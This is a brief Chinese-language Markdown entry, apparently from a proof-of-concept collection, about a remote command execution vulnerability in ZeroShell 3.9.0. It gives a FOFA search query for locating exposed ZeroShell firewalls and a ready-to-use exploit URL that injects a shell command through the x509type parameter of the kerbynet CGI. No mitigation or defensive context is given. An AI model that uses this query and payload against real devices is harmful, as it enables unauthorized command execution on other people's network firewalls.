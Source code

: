 # ZeroShell 3.9.0 远程命令执行漏洞
## 资产收集
fofa：`app="Zeroshell-防火墙"`  
![](./img/login.png)
## POC
`/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27`  
![](./img/poc.png)